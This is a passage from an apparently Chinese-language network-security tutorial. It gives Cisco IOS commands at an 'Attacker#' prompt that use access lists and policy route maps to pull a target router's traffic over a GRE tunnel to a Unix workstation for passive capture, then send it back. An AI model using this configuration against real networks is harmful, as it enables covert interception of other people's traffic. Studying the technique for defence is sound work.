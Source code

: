     ```
    Attacker#conf t
    Attacker(config)#access-list 100 permit ip any any
    Attacker(config)#route-map reflect
    Attacker(config-route-map)#match ip address 100
    Attacker(config-route-map)#set ip next-hop 192.168.5.1
    Attacker(config-route-map)#exit
    Attacker(config)#int tunnel0
    Attacker(config-if)#ip policy route-map reflect
    Attacker(config-if)#exit
    Attacker(config)#exit
    Attacker#
    
    ```
    
    访问控制列表100（acl100）匹配所有IP协议流量，route map策略抓取了所有匹配访问控制列表100的流量，然后发往192.168.5.1，也就是目标路由器上终结GRE隧道的地址。这条route map策略在tunnel0接口上应用。
    
    这样配置的结果就是，所有通过tunnel0接口到达中间路由器的流量，随后会通过tunnel接口（即tunnel隧道）返回给目标路由器。
    
4.  **场景1中的Unix工作站初始化**
    
    在场景1中，攻击者的Unix工作站在外部署在中间路由器的外部接口中，在这个实例中，Unix工作站的IP地址可以配置或不配置，因为工作站只需要被动地捕获网络流量。
    
5.  **场景2中的策略路由配置**
    
    在第二个场景中，我们在中间路由器tunnel接口上和在与Unix工作站互联的内网接口上建立了策略路由，来“反射”通过GRE隧道及Unix工作站内网接口传来的流量。
    
    中间路由器操作：
    
    ```
    Attacker#conf t
    Attacker(config)#access-list 100 permit ip any any
    Attacker(config)#route-map send-traffic-in
    Attacker(config-route-map)#match ip address 100
    Attacker(config-route-map)#set ip next-hop 192.168.3.2
    Attacker(config-route-map)#exit
    Attacker(config)#int tunnel0
    Attacker(config-if)#ip policy route-map send-traffic-in
    Attacker(config-if)#exit
    Attacker(config)#route-map send-traffic-out
    Attacker(config-route-map)#match ip address 100
    Attacker(config-route-map)#set ip next-hop 192.168.5.1
    Attacker(config-route-map)#exit
    Attacker(config)#int eth0/0
    Attacker(config-if)#ip policy route-map send-traffic-out
    Attacker(config-if)#exit
    Attacker(config)#exit
    Attacker#
    
    ```
    
    策略路由“send-traffic-in”被应用在tunnel0接口上，这条策略路由将从tunnel所有到达的流量转发到Unix工作站的住IP地址的以太网接口上（192.168.3.2）。工作站通过缺省路由经将该流量转发回中间路由器上（192.168.4.1）。
    
    策略路由“send-traffic-out”被应用在中间路由器的内部以太网接口上（与Unix工作站互联的接口），它将从Unix工作站返回的流量通过GRE隧道全部转发回目标路由器。
    